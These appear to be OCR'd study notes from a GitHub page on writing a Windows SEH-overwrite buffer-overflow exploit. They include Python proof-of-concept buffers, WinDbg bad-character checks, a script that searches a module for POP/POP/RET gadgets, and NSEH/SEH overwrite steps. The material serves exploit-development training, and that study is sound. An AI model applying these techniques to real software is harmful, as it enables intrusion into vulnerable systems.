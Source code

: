 The pow
```
inputBuffer = b"\x41" * 128
inputBuffer+= b"\x42\x42\x42\x42"
inputBuffer += badchars
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
The instruction pointer should be overwritten with the second argument (EstablisherFrame) passed to the _except_handler function (in the stack). In order to check the bad chars:
```
dds esp L5
db 0132ff54 # 0x0132ff54 being the address of the second argument of ntdll!ExecuteHandler2 function noticed in the top of the stack
```

### Finding a P/P/R Instruction Sequence
```
.load narly
!nmod

#scripting
# should be placed in a ".wds" file (ex C:\Users\vagrant\Desktop\find_ppr.wds)
#here 10000000 and 10226000 are start and end address of the module (with “/SafeSEH OFF” and not containing bad chars) to check for P/P/R instruction

.block
{
    .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10226000 $t0 $t1 c3
        }
    }
}
```
We execute this in the windows machine 
`$><C:\Users\vagrant\Desktop\find_ppr.wds`
Once an address is picked (assumed 0x1015a2f0 here), this is the new poc
```
inputBuffer = b"\x41" * 128
inputBuffer += pack("<L" , (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax ; pop ebx ; ret
inputBuffer+= b"\x43" * (size - len(inputBuffer))
```
Break point at this address in debugger
`bp 0x1015a2f0`


### Write the Next SEH (offset - 4)
The handler is execute then the next handler 
The after executing the P/P/R, we should be redirected to the Next Handler address overwriiten with 41 41 41 41 (4 bytes before the offset which is 128 here)
The new pow
```
inputBuffer = b"\x41" * 124 
inputBuffer += b"\x42" * 4 # (NSEH)
inputBuffer += pack("<L" , (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax ; pop ebx ; ret
inputBuffer += b"\x43" * (size - len(inputBuffer))
```
### if a jump is needed
```
u eip
dds esp
```